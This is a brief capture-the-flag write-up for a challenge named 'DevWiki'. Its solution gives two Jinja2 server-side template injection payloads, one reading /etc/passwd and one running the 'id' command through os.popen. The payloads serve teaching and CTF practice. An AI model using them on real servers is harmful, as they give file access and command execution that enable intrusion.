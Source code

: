 # DevWiki

## Description
We will never underpay and rush our developers again. Our site keeps getting hacked but we cannot figure out how.

Can you help us?

## Solution
Use a custom template to execute code on the server to get the flag.

i.e.

```
# Read file
{{ get_flashed_messages.__globals__.__builtins__.open('/etc/passwd').read() }}

# Execute commands
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}```
```
```
